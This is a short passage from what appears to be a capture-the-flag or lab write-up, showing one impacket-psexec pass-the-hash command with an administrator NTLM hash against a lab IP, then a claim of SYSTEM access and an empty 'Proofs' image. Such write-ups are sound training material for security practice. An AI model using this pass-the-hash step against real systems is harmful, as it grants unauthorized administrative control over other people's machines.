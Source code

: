Psexec

```
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210
```

* We now have administrative, SYSTEM-level access to our target!

## Proofs

SYSTEM

<figure><img src="../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>
